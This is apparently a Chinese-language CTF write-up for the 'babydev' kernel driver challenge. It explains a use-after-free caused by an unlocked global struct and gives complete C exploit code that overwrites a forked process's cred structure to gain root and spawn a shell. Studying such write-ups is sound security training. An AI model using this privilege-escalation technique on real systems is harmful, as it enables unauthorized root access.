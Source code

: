 值得注意的是驱动程序中的函数操作都使用同一个变量`babydev_struct`，而`babydev_struct`是全局变量，漏洞点在于多个设备同时操作这个变量会将变量覆盖为最后改动的内容，没有对全局变量上锁，导致条件竞争

- 我们使用`ioctl`同时打开两个设备，第二次打开的内容会覆盖掉第一次打开设备的`babydev_struct` ，如果释放第一个，那么第二个理论上也被释放了，实际上并没有，就造成了一个UAF
- 释放其中一个后，使用`fork`，那么这个新进程的`cred`空间就会和之前释放的空间重叠
- 利用那个没有释放的描述符对这块空间写入，把`cred`结构体中的`uid`和`gid`改为0，就可实现提权
- 还有在修改时需要知道`cred`结构的大小，可以根据内核版本可以查看源码，计算出`cred`结构大小是0xa8，不同版本的内核源码这个结构体的大小都不一样

exp代码

```assembly
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/wait.h>
#include <sys/stat.h>

int main()
{
    // 打开两次设备
    int fd1 = open("/dev/babydev", 2);
    int fd2 = open("/dev/babydev", 2);

    // 修改 babydev_struct.device_buf_len 为 sizeof(struct cred)
    ioctl(fd1, 0x10001, 0xa8);

    // 释放 fd1
    close(fd1);

    // 新起进程的 cred 空间会和刚刚释放的 babydev_struct 重叠
    int pid = fork();
    if(pid < 0)
    {
        puts("[*] fork error!");
        exit(0);
    }

    else if(pid == 0)
    {
        // 通过更改 fd2，修改新进程的 cred 的 uid，gid 等值为0
        char zeros[30] = {0};
        write(fd2, zeros, 28);

        if(getuid() == 0)
        {
            puts("[+] root now.");
            system("/bin/sh");
            exit(0);
        }
    }

    else
    {
        wait(NULL);
    }
    close(fd2);

    return 0;
}
```
